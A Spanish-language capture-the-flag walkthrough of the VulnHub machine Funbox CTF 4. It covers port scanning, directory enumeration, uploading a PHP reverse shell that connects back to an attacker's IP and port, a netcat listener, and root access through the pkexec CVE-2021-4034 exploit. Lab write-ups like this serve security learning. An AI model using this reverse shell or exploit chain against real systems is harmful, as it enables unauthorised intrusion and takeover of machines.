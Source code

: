 # Funbox\_CTF\_4 VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 13:15 CEST
Nmap scan report for 192.168.5.131
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:b3:8f:f1:e3:b7:6c:18:ee:31:22:d3:d4:c9:5f:e6 (RSA)
|   256 45:c2:16:fc:3e:a9:fc:32:fc:36:fb:d7:ce:4f:2b:fe (ECDSA)
|_  256 4f:f8:46:72:22:9f:d3:10:51:9c:49:e0:76:5f:25:33 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3?
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: CAPABILITY
MAC Address: 00:0C:29:CC:EE:88 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 180.78 seconds
```

En la descripcion de `VulnHub` nos comenta el creador que hay algunos directorios en mayusculas, por lo que probare a entrar en el `robots.txt` pero en mayusculas, por lo que vemos si funciona...

```
URL = http://<IP>/ROBOTS.TXT
```

Y vemos lo siguiente...

```
Disallow: upload/



Disallow: igmseklhgmrjmtherij2145236
```

Si entramos en la segunda `URL`...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/
```

Veremos un `Forbiden` por lo que le tiraremos un `Gobuster`...

### Gobuster

```shell
gobuster dir -u http://<IP>/igmseklhgmrjmtherij2145236/ -w <WORDLIST> -x html,php,txt -t 50 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.131/igmseklhgmrjmtherij2145236/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecList/Web/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 320]
/.php                 (Status: 403) [Size: 319]
/upload               (Status: 301) [Size: 342] [--> http://192.168.5.131/igmseklhgmrjmtherij2145236/upload/]
/upload.html          (Status: 200) [Size: 297]
/upload.php           (Status: 200) [Size: 319]
/.html                (Status: 403) [Size: 320]
/.php                 (Status: 403) [Size: 319]
```

Vemos varias cosas interesantes...

Si nos vamos a `/upload.php` veremos que podemos subir cualquier archivo, por lo que haremos lo siguiente...

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Creamos un archivo para hacernos una `Reverse Shell` y subimos dicho archivo...

Una vez subido, nos pondra que se subio correctamente y antes de ir al archivo nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Por lo que ahora estando preparados, vamos a la siguiente `URL`...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/upload/
```

Pero nos pondra otro `Forbiden`, pero como sabemos como se llama nuestro archivo que subimos probaremos a ponerlo en la `URL` seguido del `/upload` de la siguiente manera...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/upload/shell.php
```

Y si hacemos esto, funcionara, por lo que una vez entres dentro, nos creara una `shell` con el usuario `www-data`...

Por lo que la sanitizaremos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Veremos la siguiente linea...

```
38319     24 -rwsr-xr-x   1 root     root    23376 Jan 18  2016 /usr/bin/pkexec
```

Esto actua como un `/bin/bash` que tiene permisos `SUID`, por lo que haremos lo siguiente...

URL = https://github.com/Almorabea/pkexec-exploit

Esto nos lo llevaremos al servidor victima, ya sea copiando el contenido de `python` o transferirlo con algun comando como `curl` o `wget`, pero como no estan instalados ni `curl` y `wget` haremos otra cosa, si nos acordamos de que anteriormente podemos subir archivos desde la pagina web, subiremos el `.py` desde la pagina web y lo moveremos desde terminal hasta `/tmp` para poder iniciarlo...

Una vez hecho todo eso, haremos lo siguiente...

```shell
chmod +x CVE-2021-4034.py
```

```shell
python3 CVE-2021-4034.py
```

Info:

```
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f9a417d14e8 at 0x7f9a416659b0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
#
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> flag.txt (flag\_final)

```
(  _`\              ( )                       (  _`\(_   _)(  _`\ 
| (_(_)_   _   ___  | |_      _          _    | ( (_) | |  | (_(_)
|  _) ( ) ( )/' _ `\| '_`\  /'_`\ (`\/')(_)   | |  _  | |  |  _)  
| |   | (_) || ( ) || |_) )( (_) ) >  <  _    | (_( ) | |  | |    
(_)   `\___/'(_) (_)(_,__/'`\___/'(_/\_)(_)   (____/' (_)  (_)    

Well done ! Made with ❤ by @0815R2d2 ! I look forward to see this screenshot on twitter ;-)
```
